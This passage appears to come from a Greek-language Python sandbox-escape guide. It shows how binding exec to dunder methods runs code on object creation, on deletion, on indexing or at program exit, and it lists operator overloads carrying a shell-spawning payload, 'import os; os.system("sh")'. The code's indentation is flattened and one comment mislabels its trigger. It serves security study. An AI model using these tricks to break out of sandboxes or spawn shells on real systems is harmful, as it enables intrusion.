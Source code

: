 #### RCE με προσαρμοσμένες κλάσεις

Μπορείτε να τροποποιήσετε κάποιες **μεθόδους κλάσης** (_υπεργράφοντας υπάρχουσες μεθόδους κλάσης ή δημιουργώντας μια νέα κλάση_) ώστε να **εκτελούν αυθαίρετο κώδικα** όταν **ενεργοποιηθούν** χωρίς να τις καλείτε άμεσα.
```python
# This class has 3 different ways to trigger RCE without directly calling any function
class RCE:
def __init__(self):
self += "print('Hello from __init__ + __iadd__')"
__iadd__ = exec #Triggered when object is created
def __del__(self):
self -= "print('Hello from __del__ + __isub__')"
__isub__ = exec #Triggered when object is created
__getitem__ = exec #Trigerred with obj[<argument>]
__add__ = exec #Triggered with obj + <argument>

# These lines abuse directly the previous class to get RCE
rce = RCE() #Later we will see how to create objects without calling the constructor
rce["print('Hello from __getitem__')"]
rce + "print('Hello from __add__')"
del rce

# These lines will get RCE when the program is over (exit)
sys.modules["pwnd"] = RCE()
exit()

# Other functions to overwrite
__sub__ (k - 'import os; os.system("sh")')
__mul__ (k * 'import os; os.system("sh")')
__floordiv__ (k // 'import os; os.system("sh")')
__truediv__ (k / 'import os; os.system("sh")')
__mod__ (k % 'import os; os.system("sh")')
__pow__ (k**'import os; os.system("sh")')
__lt__ (k < 'import os; os.system("sh")')
__le__ (k <= 'import os; os.system("sh")')
__eq__ (k == 'import os; os.system("sh")')
__ne__ (k != 'import os; os.system("sh")')
__ge__ (k >= 'import os; os.system("sh")')
__gt__ (k > 'import os; os.system("sh")')
__iadd__ (k += 'import os; os.system("sh")')
__isub__ (k -= 'import os; os.system("sh")')
__imul__ (k *= 'import os; os.system("sh")')
__ifloordiv__ (k //= 'import os; os.system("sh")')
__idiv__ (k /= 'import os; os.system("sh")')
__itruediv__ (k /= 'import os; os.system("sh")') (Note that this only works when from __future__ import division is in effect.)
__imod__ (k %= 'import os; os.system("sh")')
__ipow__ (k **= 'import os; os.system("sh")')
__ilshift__ (k<<= 'import os; os.system("sh")')
__irshift__ (k >>= 'import os; os.system("sh")')
__iand__ (k = 'import os; os.system("sh")')
__ior__ (k |= 'import os; os.system("sh")')
__ixor__ (k ^= 'import os; os.system("sh")')
```
#### Δημιουργία αντικειμένων με [μετακλάσεις](https://docs.python.org/3/reference/datamodel.html#metaclasses)
